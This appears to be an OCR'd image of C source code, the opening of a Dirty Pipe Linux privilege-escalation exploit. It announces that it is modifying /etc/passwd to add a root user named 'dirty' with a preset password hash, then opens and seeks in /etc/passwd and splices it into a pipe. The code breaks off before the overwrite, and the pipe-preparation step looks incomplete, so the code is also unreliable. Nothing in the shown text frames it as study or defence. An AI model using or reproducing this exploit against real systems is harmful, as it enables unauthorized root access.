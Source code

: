 ```bash

int main(int argc, char *argv[]) {
    printf("[+] Dirty Pipe Exploit\n");
    printf("[+] Modifying /etc/passwd to create new root user\n");
    
    // Create a string to add a new user with root privileges
    char *rootline = "dirty:$1$dirty$gX0uBQR1DIEcr6OvbVpSN1:0:0:dirty:/root:/bin/bash\n";
    size_t offset = 4; // Skip the first few bytes of /etc/passwd
    
    int fd = open("/etc/passwd", O_RDONLY);
    if (fd < 0) {
        perror("[-] Failed to open /etc/passwd");
        return 1;
    }
    
    // Check the size of the file
    struct stat st;
    if (fstat(fd, &st) < 0) {
        perror("[-] Failed to get file size");
        close(fd);
        return 1;
    }
    
    size_t size = st.st_size;
    if (offset >= size) {
        fprintf(stderr, "[-] Offset is beyond file size\n");
        close(fd);
        return 1;
    }
    
    // Set the file descriptor to the offset
    if (lseek(fd, offset, SEEK_SET) < 0) {
        perror("[-] Failed to seek");
        close(fd);
        return 1;
    }
    
    // Create a pipe
    int p[2];
    if (pipe(p) < 0) {
        perror("[-] Failed to create pipe");
        close(fd);
        return 1;
    }
    
    // Write some data to the pipe
    if (write(p[1], "AAAAAAAA", 8) != 8) {
        perror("[-] Failed to write to pipe");
        close(fd);
        close(p[0]);
        close(p[1]);
        return 1;
    }
    
    // Create a pipe_buffer pointing to the file
    if (splice(fd, NULL, p[1], NULL, size, 0) < 0) {
        perror("[-] Failed to splice");
        close(fd);
        close(p[0]);
        close(p[1]);
        return 1;
    }
    
```